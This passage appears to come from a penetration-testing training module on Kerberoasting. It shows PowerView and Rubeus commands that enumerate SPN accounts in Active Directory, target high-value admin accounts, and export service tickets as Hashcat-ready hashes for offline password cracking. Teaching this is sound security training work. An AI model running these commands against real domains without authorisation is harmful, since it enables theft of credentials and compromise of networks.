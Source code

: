 ## Automated / Tool Based Route

### Using PowerView

#### Using PowerView to Enumerate SPN Accounts
```powershell-session
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Get-DomainUser * -spn | select samaccountname
```

#### Using PowerView to Target a Specific User
```powershell-session
PS C:\htb> Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```

#### Exporting all Tickets to a CSV File
```powershell-session
PS C:\htb> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

We can also use [Rubeus](https://github.com/GhostPack/Rubeus) from GhostPack to perform Kerberoasting even faster and easier. Rubeus provides us with a variety of options for performing Kerberoasting.

### Using Rubeus

Some options of Rubeus include:

- Performing Kerberoasting and outputting hashes to a file
- Using alternate credentials
- Performing Kerberoasting combined with a pass-the-ticket attack
- Performing "opsec" Kerberoasting to filter out AES-enabled accounts
- Requesting tickets for accounts passwords set between a specific date range
- Placing a limit on the number of tickets requested
- Performing AES Kerberoasting

We can first use Rubeus to gather some stats. For example how many Kerberoastable users there are, what encryption type they support, and when they last changed their password.

#### Using the /stats Flag
```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /stats
```

Accounts with the `admincount` attribute set to `1` are most likely high value targets. The `/nowrap` flag prevent any base64 ticket blobs from being column wrapped for any function, so we won't have to worry about trimming white space or newlines before cracking with Hashcat.

#### Requesting Tickets
```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```
